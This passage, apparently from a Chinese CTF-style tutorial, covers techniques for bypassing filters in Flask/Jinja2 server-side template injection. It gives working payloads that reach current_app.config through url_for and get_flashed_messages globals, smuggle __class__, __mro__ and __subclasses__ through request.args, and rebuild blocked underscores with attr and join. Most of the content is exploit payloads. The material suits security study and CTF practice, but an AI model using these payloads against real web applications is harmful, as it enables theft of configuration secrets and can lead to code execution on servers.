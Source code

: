 复制

### **7、一些绕过**

对一些过滤的绕过方法

##### **过滤了小括号**

用python的内置函数

- get_flashed_messages()
- url_for()

payload

```javascript
{{url_for.__globals__}}
{{url_for.__globals__['current_app'].config['FLAG']}}

{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

复制

##### **过滤了 `class`、 `subclasses`、 `read`等关键词**

用request

- GET: request.args
- Cookies: request.cookies
- Headers: request.headers
- Environment: request.environ
- Values: request.values

一些用法

- `request.__class__`
- `request["__class__"]`
- `request|attr("__class__")`

payload

```javascript
{{''[request.args.a][request.args.b][2][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__
```

复制

##### **过滤了下划线`_`**

payload

```javascript
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
```

复制

其实现过程如下

```javascript
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```
